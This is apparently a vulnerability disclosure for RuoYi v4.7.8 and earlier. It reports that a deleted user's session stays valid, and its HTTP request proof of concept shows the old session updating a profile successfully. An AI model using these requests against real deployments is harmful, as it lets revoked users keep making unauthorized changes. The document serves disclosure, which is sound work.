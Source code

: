 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 5/28/2024
## Vendor
[yangzongzhuan](https://github.com/yangzongzhuan)
### Homepage: https://github.com/yangzongzhuan/RuoYi
**version**: 
v4.7.8 and before

## Tested on: Debian Linux

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration. The session of the deleted user is still alive, allowing the user to use the old session to operate successfully.

### PoC
1. `admin` login, `user1` login
2. `admin` delete `user1`
```
POST /system/user/remove HTTP/1.1
ids = 108
```
3. `user1` can still operate successfully, like updating his/her information, and deleting other normal users.
```
POST /system/user/profile/update HTTP/1.1
{
  id:
  userName: user0529
  phoneNumber: 13325692356
  email: aa@163.com
  sex: 0
}
...
response: 
HTTP/1.1 200 OK
{"message": "success", "code":0}
```

